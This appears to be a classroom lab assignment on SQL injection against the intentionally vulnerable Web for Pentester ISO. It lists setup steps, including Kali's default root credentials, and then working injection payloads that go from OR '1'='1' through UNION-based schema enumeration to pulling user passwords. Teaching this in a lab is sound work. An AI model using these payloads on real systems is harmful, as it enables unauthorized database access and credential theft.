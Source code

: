 # **SQL Injection Lab Assignment**  

### **Prerequisite**: Installation of Web for Pentester  
Before starting the lab, ensure that you have **Web for Pentester** installed on your system. Follow these steps to install it on Kali Linux:  

---

## **Installation Instructions**  

### **Kali Linux Credentials**:  
- **Username**: root  
- **Password**: toor  

### **Network Configuration**:  
1. Ensure that all systems are on the same network.  
2. If you are using your own equipment, **do not use a bridge connection**. This would place the system directly on the network your workstation is attached to.  

### **Mount the Web for Pentester ISO**:  
1. **Stop the LiveISO server** (Power OFF).  
2. Click on **Mount CDROM**.  
3. Select the appropriate options as shown in your installation guide (screenshots can be provided if needed).  

### **Boot to the Web for Pentester ISO**:  
1. Start the LiveISO server and boot from the Web for Pentester ISO file (**no login required**).  

### **Determine the IP Address**:  
Once the system boots, determine the IP address of the Pentester Lab system and record it here:  
**IP Address**: ______  

---

## **Objective**  
This lab aims to help students understand **SQL injection vulnerabilities**, how they can be exploited, and the impact of these attacks on database-driven applications.  

---

## **Using Kali Linux (or Another Server) as a Client**  

### **1. Open a Terminal**  
Launch a terminal in your Kali Linux environment.  

### **2. Determine Your Network Configuration**  
Ensure that your Kali Linux (or any other server) is connected to the same network as the Web for Pentester ISO server.  

### **3. Ping the ISO Server**  
Use the `ping` command to confirm connectivity:  
```bash
ping <Pentester Lab IP Address>
```  

### **4. Access the Web Application**  
1. Open **Firefox** (or any web browser) in your Kali Linux environment:  
   ```
   firefox &
   ```  
2. In the address bar, enter the IP address of the Pentester Lab server:  
   ```http://<Pentester Lab IP Address>```  

### **5. Start Exploring**  
Familiarize yourself with the web application hosted on the ISO server. This will be your **testing ground** for SQL injection techniques.  

---

## **SQL Injection Techniques**  

### **Example 1: Basic SQL Injection Using `OR`**  

#### **Expected SQL Query**:  
**Original Query**:  
```
SELECT id, name, age FROM table WHERE name='root'
```  
**Injected Query**:  
```
SELECT id, name, age FROM table WHERE name='root' OR '1'='1'
```  
**Result**: This returns all records in the table.  

#### **Payload/URL Format**:  
**Payload with URL encoding**:  
```
uri?name=root' OR '1'='1' %23
```  
**Expected SQL**:  
```
SELECT id, name, age FROM table WHERE name='root' OR '1'='1' #'
```  

---

### **Example 2: Using `UNION SELECT` to Combine Queries**  

#### **Injected URL**:  
**Payload**:  
```
url?name=root' UNION SELECT null %23
```  
**Expected SQL**:  
```
SELECT id, name, age FROM table WHERE name='root' UNION SELECT null #'
```  
**Result**: This returns nothing because the column numbers must match.  

#### **Determining Column Numbers**:  
- **Testing with Nulls**:  
  ```
  SELECT id, name, age FROM table WHERE name='root' UNION SELECT null, null, null %23
  ```  
- **Testing with More Columns**:  
  ```
  SELECT id, name, age FROM table WHERE name='root' UNION SELECT null, null, null, null, null %23
  ```  
- **Successful Injection**: After determining the number of columns, students can inject real data:  
  ```
  SELECT id, name, age FROM table WHERE name='root' UNION SELECT 1, 'goksel', 30
  ```  

---

### **Example 3: Using `ORDER BY` to Find Column Numbers**  

#### **Testing Column Numbers**:  
- **Invalid Column**:  
  ```
  url?name=root' ORDER BY 6 %23
  ```  
- **Valid Column**:  
  ```
  url?name=root' ORDER BY 5 %23
  ```  

---

### **Example 4: Extracting System Database Information**  

#### **Querying Database Version**:  
**Payload**:  
```
url?name=root' UNION SELECT 1, version(), 3, 4, 5 %23
```  
**Expected SQL**:  
```
SELECT id, name, age FROM table WHERE name='root' UNION SELECT 1, version(), 3, 4, 5 #'
```  

#### **Getting Database Name**:  
**Payload**:  
```
url?name=root' UNION SELECT 1, database(), 3, 4, 5 %23
```  

#### **Querying Table Information**:  
**Payload for Tables**:  
```
url?name=root' UNION SELECT table_name, 2, 3, 4, 5 FROM information_schema.tables WHERE table_schema=database() %23
```  

#### **Querying Column Information**:  
**Payload for Columns**:  
```
url?name=root' UNION SELECT column_name, 2, 3, 4, 5 FROM information_schema.columns WHERE table_name='users' %23
```  

#### **Extracting User Credentials**:  
**Injected URL**:  
```
url?name=root' UNION SELECT name, passwd, 3, 4, 5 FROM users %23
```  
